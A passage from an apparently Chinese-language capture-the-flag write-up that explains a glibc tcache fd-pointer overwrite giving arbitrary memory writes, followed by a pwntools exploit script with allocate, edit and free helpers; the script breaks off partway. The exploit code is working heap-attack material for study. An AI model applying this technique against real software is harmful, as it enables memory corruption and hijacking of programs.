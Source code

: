 
### tcache exploit

本题可以溢出较长字节，因此可以覆盖 chunk 的 fd 指针，在 libc 2.26 之后的 tcache 机制中，未对 fd 指针指向的 chunk 进行 size 检查，从而可以将 fd 指针覆盖任意地址。在 free 该被溢出 chunk 并且两次 malloc 后可以实现任意地址修改：

```python
from pwn import *
from GdbWrapper import GdbWrapper
from one_gadget import generate_one_gadget

context.log_level = "info"
context.endian = "little"
context.word_size = 64
context.os = "linux"
context.arch = "amd64"
context.terminal = ["deepin-terminal", "-x", "zsh", "-c"]

def Alloc(io, size):
    io.sendline("1")
    io.sendline(str(size))
    io.readline()
    io.readline()
def Edit(io, index, length, buf):
    io.sendline("2")
    io.sendline(str(index))
    io.sendline(str(length))
    io.send(buf)
    io.readline()
def Free(io, index):
    io.sendline("3")
    io.sendline(str(index))
    try:
        tmp = io.readline(timeout = 3)
    except Exception:
        io.interactive()
    print tmp
    if "OK" not in tmp and "FAIL" not in tmp:
        return tmp

def main(binary, poc):
    # test env
    bss_ptrlist = None
    free_index = None
    free_try = 2
    elf = ELF(binary)
    libc_real = elf.libc.path[: elf.libc.path.rfind('/') + 1]

    assert elf.arch == "amd64" and (os.path.exists(libc_real + "libc-2.27.so") or os.path.exists(libc_real + "libc-2.26.so"))
    while bss_ptrlist == None:
        # find bss ptr
        io = process(binary)
        gdbwrapper = GdbWrapper(io.pid)
        # gdb.attach(io)
        Alloc(io, 0x400)
        Edit(io, 1, 0x400, "a" * 0x400)
        Alloc(io, 0x400)
        Edit(io, 2, 0x400, "b" * 0x400)
        Alloc(io, 0x400)
        Edit(io, 3, 0x400, "c" * 0x400)
        Alloc(io, 0x400)
        Edit(io, 4, 0x400, "d" * 0x400)
        Alloc(io, 0x400)
```